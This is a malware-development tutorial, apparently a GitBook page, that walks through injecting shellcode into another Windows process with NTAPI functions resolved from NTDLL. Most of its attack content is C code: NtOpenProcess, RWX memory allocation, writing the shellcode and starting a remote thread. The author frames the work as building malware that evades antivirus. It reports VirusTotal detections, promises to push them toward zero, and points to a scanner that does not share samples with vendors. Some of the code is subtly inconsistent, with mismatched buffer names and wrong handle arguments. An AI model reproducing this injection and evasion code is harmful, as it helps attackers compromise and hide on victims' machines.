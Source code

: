 ```yaml
---
description: Process Injection using the low level NTAPI functions
---
```


# NTAPI Implementation

## Introduction

As we know that when we call any windows API function like [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess), it first finds the function in the `kernel32.dll` which in turn calls the same function in the `kernelbase.dll` which would then call the `NtOpenProcess / ZwOpenProcess` function present in the `NTDLL.dll` which then finally does the system call and the execution is moved to kernel mode from where the result is returned accordingly. The Execution Flow is something like this :&#x20;

<mark style="color:orange;">**`OpenProcess (API / Kernel32.dll) --> OpenProcess (Kernelbase.dll)  --> NtOpenProcess (NTAPI) --> syscall --> Kernel Mode --> Result`**</mark>

And as we know that the lower we go , the more control we have over our Malware, the better we can understand / write our malware and thus, the better we can evade antivirus programs. I'll show how we can use the low-level NTAPI functions to inject our shellcode into any legitimate process.

## Initial Setup

### Defining Structures

We need to have some structures predefined, although some of it isn't necessary (I'll let you know which ones) but it's a good practice to do so, especially as someone who is learning. It's better to have a different header file in C which we will include later in our main program. Let's start by defining function prototypes. This is basically us telling the compiler what to expect in the parameters of those functions since these functions are not defined so the compiler doesn't know.&#x20;

```c
// Function Prototypes
typedef NTSTATUS(NTAPI* NtOpenProcess) (
    _Out_ PHANDLE ProcessHandle,
    _In_ ACCESS_MASK DesiredAccess,
    _In_ POBJECT_ATTRIBUTES ObjectAttributes,
    _In_opt_ PCLIENT_ID ClientID
    );
    
typedef NTSTATUS(NTAPI* NtCreateThreadEx) (
    _Out_ PHANDLE ThreadHandle,
    _In_ ACCESS_MASK DesiredAccess,
    _In_opt_ POBJECT_ATTRIBUTES ObjectAttributes,
    _In_ HANDLE ProcessHandle,
    _In_ PVOID StartRoutine,
    _In_opt_ PVOID Argument,
    _In_ ULONG CreateFlags, // THREAD_CREATE_FLAGS_*
    _In_ SIZE_T ZeroBits,
    _In_ SIZE_T StackSize,
    _In_ SIZE_T MaximumStackSize,
    _In_opt_ PPS_ATTRIBUTE_LIST AttributeList
    );

typedef NTSTATUS(NTAPI* NtClose) (
    _In_ _Post_ptr_invalid_ HANDLE Handle
    );

typedef NTSTATUS (NTAPI* NtAllocateVirtualMemory)(
    _In_ HANDLE ProcessHandle,
    _Inout_ _At_(*BaseAddress, _Readable_bytes_(*RegionSize) _Writable_bytes_(*RegionSize) _Post_readable_byte_size_(*RegionSize)) PVOID* BaseAddress,
    _In_ ULONG_PTR ZeroBits,
    _Inout_ PSIZE_T RegionSize,
    _In_ ULONG AllocationType,
    _In_ ULONG Protect
);

typedef NTSTATUS (NTAPI* NtWriteVirtualMemory)(
    _In_ HANDLE ProcessHandle,
    _In_opt_ PVOID BaseAddress,
    _In_reads_bytes_(BufferSize) PVOID Buffer,
    _In_ SIZE_T BufferSize,
    _Out_opt_ PSIZE_T NumberOfBytesWritten
);
```

Some functions can be found on MSDN page itself like the [NtOpenProcess](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-ntopenprocess) function, and for rest we can use websites like [http://undocumented.ntinternals.net/](http://undocumented.ntinternals.net/) (for older windows versions like XP / 7) or [https://ntdoc.m417z.com/ntallocatevirtualmemory](https://ntdoc.m417z.com/ntallocatevirtualmemory) which tells the structure of the function, note that the function types / structures which are marked in blue might need to be declared in the code and we can click on it to see how to do so. Then we also need to define some structures (which were marked in blue on the site). Although we can just include the necessary header files, but in some case it might lead to some other redefinition issues, etc. like for `CLIENT_ID` and `OBJECT_ATTRIBUTES` we can actually just use the `winternl.h` header file but then we might have to change the name for NtClose function since it is present in the header file and we are re-defining it (we can just comment out our definition as well which will solve the problem).&#x20;

```c
//0x30 bytes (sizeof)
typedef struct _OBJECT_ATTRIBUTES
{
    ULONG Length;                                                           //0x0
    VOID* RootDirectory;                                                    //0x8
    struct _UNICODE_STRING* ObjectName;                                     //0x10
    ULONG Attributes;                                                       //0x18
    VOID* SecurityDescriptor;                                               //0x20
    VOID* SecurityQualityOfService;                                         //0x28
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

//0x10 bytes (sizeof)
typedef struct _CLIENT_ID
{
    VOID* UniqueProcess;                                                    //0x0
    VOID* UniqueThread;                                                     //0x8
} CLIENT_ID, * PCLIENT_ID;

typedef struct _PS_ATTRIBUTE
{
    ULONG_PTR Attribute;
    SIZE_T Size;
    union
    {
        ULONG_PTR Value;
        PVOID ValuePtr;
    };
    PSIZE_T ReturnLength;
} PS_ATTRIBUTE, * PPS_ATTRIBUTE;

typedef struct _PS_ATTRIBUTE_LIST
{
    SIZE_T TotalLength;
    PS_ATTRIBUTE Attributes[1];
} PS_ATTRIBUTE_LIST, * PPS_ATTRIBUTE_LIST;
```

With all of this, now we are ready to write our main program.

### Loading NTAPI functions

To call the NTAPI functions, we would first need to get a Handle to the NTDLL file from where we would get the address of the necessary functions required. Then we would call those accordingly. Also we would have to initialize necessary parameters. We can use functions like [`GetModuleHandle`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlew) and [`GetProcAddress`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) for this. Note that these functions being present in a binary's IAT is an indicator of malware.

What we are doing here is getting the address of the function, so if `NtOpenProcess` is at `0x702E` then we save that address to a function pointer `pOpen` and then call this function (which points to the original `NtOpenProcess`) and pass necessary arguments.

```c
HMODULE hNTDLL = GetModuleHandleW(L"NTDLL.DLL");

NtOpenProcess pOpen = (NtOpenProcess)GetProcAddress(hNTDLL, "NtOpenProcess");
NtCreateThreadEx pCreateThreadEx = (NtCreateThreadEx)GetProcAddress(hNTDLL, "NtCreateThreadEx");
NtAllocateVirtualMemory pAllocate = (NtAllocateVirtualMemory)GetProcAddress(hNTDLL ,"NtAllocateVirtualMemory");
NtWriteVirtualMemory pWrite = (NtWriteVirtualMemory)GetProcAddress(hNTDLL, "NtWriteVirtualMemory");
NtClose pClose = (NtClose)GetProcAddress(hNTDLL, "NtClose");

// parameters for NtOpenProcess
OBJECT_ATTRIBUTES oAttrib = { sizeof(oAttrib), NULL };
CLIENT_ID cID = { (HANDLE)pID, NULL };
```

The NTAPI functions have similar parameters to what their high level counterparts along with additional parameters. [`OBJECT_ATTRIBUTES`](https://learn.microsoft.com/en-us/windows/win32/api/ntdef/ns-ntdef-_object_attributes) & [`CLIENT_ID` ](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsts/a11e7129-685b-4535-8d37-21d4596ac057)are 2 such parameters used in the `NtOpenProcess` function. [`OBJECT_ATTRIBUTES`](https://learn.microsoft.com/en-us/windows/win32/api/ntdef/ns-ntdef-_object_attributes) is the structure which specifies the attributes to apply to the object (as the name suggests), and the [`CLIENT_ID`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsts/a11e7129-685b-4535-8d37-21d4596ac057) helps identifying the thread whose process is to be opened. \
Basically, at least one of the two structure objects (Process Handle / Thread Handle) should be specified (not NULL). In our case, we have specified the Process Handle, you can definitely try creating another thread and then supplying that to check out the behavior, Learning is all about tinkering with stuff (make sure you have debug statements). That being said we can know move on to the exciting part

## NTAPI Process Injection

Well this part is quite similar to the "OG" Process Injection and if you are aware of it then you might see the similarities between the two. We just need to perform the same steps / call same functions as we did previously in [Process Injection](https://reze.gitbook.io/bin/maldev/process-injection).&#x20;

```c
NTSTATUS STATUS = NULL;
SIZE_T szShellcode = sizeof(shellcode);

// NtOpenProcess
STATUS = pOpen(&hProcess, PROCESS_ALL_ACCESS, &oAttrib, &cID);
if (STATUS != STATUS_SUCCESS) {
    warn("NtOpenProcess failed, STATUS @---0x%lx", STATUS);
    return EXIT_FAILURE;
}
else {
    okay("Got Handle to the Process %ld @---0x%p",pID, hProcess);
}
// NtAllocateVirtualMemory
STATUS = pAllocate(hProcess, &rBuffer, NULL, &szShellcode, (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
// NtWriteVirtualMemory
STATUS = pWrite(hProcess, rBuffer, bin, sizeof(bin), &bytesWritten);
// NtCreateThreadEx
STATUS = pCreateThreadEx(&hProcess, THREAD_ALL_ACCESS, &oAttrib, hProcess, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, 0, 0, 0, 0);
WaitForSingleObject(hProcess, INFINITE);
// NtClose
STATUS = pClose(hThread);
STATUS = pClose(hProcess);
```

I've removed most of the debug statement except one just to give an idea on how I debug my code. As you see, we first open a Handle to the process, then Allocate Virtual Memory of the size of our shellcode, Write our shellcode into the memory and then create a thread to run our shellcode and finally wait for it to complete it's execution.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Injecting shellcode to notepad</p></figcaption></figure>

And we have finally implemented Process Injection using the low-level NTAPI functions. I would also later show how we can leverage system calls (Direct & Indirect) to perform Process Injection. It is definitely a fact that we would face some issues even when simply performing same steps as what we see on any website and that's why it is **importante** to add debug statements to our code.

## VirusTotal

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>VirusTotal Detection</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

It is 28/72 and tbh most of it is because of the shellcode we are using which is generated by **msfvenom** which is heavily signatured and as a result easy to identify. Here's the hash if anyone's curious `31e217a135154fd66d54e05e0c2d1e8f3001c91a26d2f8b2f8b4ffc74ff708ce`

Later we will also discuss how can we lower this number more to eventually single digits less than 5 and hopefully 0 as well. But know that your samples are shared with different AV vendors so if you don't want them to analyze your "malware", you can use better alternatives like [Antiscan](https://antiscan.me/).
